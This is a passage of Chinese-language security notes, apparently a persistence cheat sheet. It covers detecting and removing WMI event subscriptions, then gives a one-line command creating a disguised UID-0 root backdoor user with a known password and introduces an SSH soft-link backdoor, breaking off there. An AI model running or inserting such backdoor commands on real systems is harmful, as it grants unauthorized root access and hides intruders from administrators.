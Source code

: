 ## 7. WMI检测与删除

**7.1 WMI 检测**

```powershell
# Reviewing WMI Subscriptions using Get-WMIObject
# Event Filter
Get-WMIObject -Namespace root\Subscription -Class __EventFilter

# Event Consumer
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer

# Binding
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

**7.2 WMI 删除**

```powershell
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='lonelyorfn'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='lonelyorfn'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "Name='lonelyorfn'" | Remove-WmiObject -Verbose
```

## 8. 一句话添加root用户

成功率不大：因为是通过指定UID为0来做到root权限的，通常系统会报错：`useradd：UID 0 并不唯一`

```bash
useradd -p `openssl passwd -1 -salt 'lsof' admin` -u 0 -g root -G root -s /bin/bash -d /usr/bin/lsof lsof
```

```
useradd 添加用户
-p `openssl passwd -1 -salt 'lsof' admin` 这个里面的指的是设置用户的密码，里面的lsof差不多是密钥之类的，可以随便写， admin是明文密码
-u 0 -o 添加一个uid为 0的用户 就相对于root级别的了
-g root -G root 将用户添加到root组
-s /bin/bash 指定新建用户的shell路径
-d /usr/bin/lsof 新建用户的主目录，可以自己定义
lsof 新建的用户的用户名
```

## 9. SSH软连接后门

### 01 后门命令

------

经典后门：对sshd建立软链接，即可使用任意密码登录。
